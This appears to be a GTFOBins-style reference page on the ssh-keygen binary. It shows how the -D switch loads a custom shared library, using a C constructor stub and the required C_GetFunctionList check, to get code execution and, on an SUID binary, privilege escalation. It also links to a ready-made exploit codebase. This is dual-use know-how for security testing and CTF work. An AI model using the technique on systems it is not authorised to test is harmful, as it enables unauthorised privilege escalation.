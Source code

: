 ```yaml
---
title: ssh-keygen
description: A reference on features of the ssh-keygen binary, relevant for security testing, exploiting and CTF.
---
```


## Code execution/Privilege escalation

The binary `ssh-keygen` can be made to load custom libraries via the `-D` switch. This can result in arbitrary code
execution. If `ssh-keygen` has SUID set, this can also lead to privilege escalation.

```bash
ssh-keygen -D /path/to/custom/library.so
```

The easiest way to write a library in such a way that its code is executed by `ssh-keygen` is to add a library constructor
`__attribute__((constructor))`.

```c
void __attribute__ ((constructor)) constructor() {
    printf("I will be executed on library load!");
}
```

Note that `ssh-keygen` makes a rudimentary check before loading a library! In particular, it checks for the existence of
a function `C_GetFunctionList()`. The function signature does not matter, but it has to be present!

```c
int C_GetFunctionList() {
	return 1;
}
```

A ready-made codebase for getting code execution is available [here](https://github.com/jonasheschl/lib2shell-ssh-keygen).
This codebase also preserves the effective user id. Useful if `ssh-keygen` is run with SUID for example.

## References

1. [ssh-keygen man page](https://www.man7.org/linux/man-pages/man1/ssh-keygen.1.html)
2. [Blog post by Sean Pesce](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html)
3. [Modified lib2shell codebase for exploiting the ssh-keygen behaviour](https://github.com/jonasheschl/lib2shell-ssh-keygen)
